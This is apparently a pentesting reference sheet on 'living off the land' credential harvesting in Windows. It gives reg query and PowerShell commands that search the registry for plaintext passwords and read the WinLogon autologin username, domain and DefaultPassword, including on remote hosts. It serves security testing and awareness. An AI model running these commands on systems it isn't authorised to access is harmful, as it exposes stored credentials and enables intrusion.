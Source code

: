 # Living off the Land

## 01 - Command Prompt

Using a registry to query the plain text password in the key.

### 1.1 - Search for patterns

```
C:\> reg query hklm /f "password" /t REG_SZ /s /k

C:\> reg query hkcu /f "password" /t REG_SZ /s /k
```

### 1.2 - Query WinLogon registry entry

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

```
C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" [/reg:<32 | 64>] 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

Enumerate one by one.

```
C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultDomainName [/reg:<32 | 64>]

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword [/reg:<32 | 64>]
```

## 02 - Powershell

### 2.1 - Search for patterns

```
PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"
```

### 2.2 - Query WinLogon registry entry

```
PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultUserName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultDomainName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultPassword
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)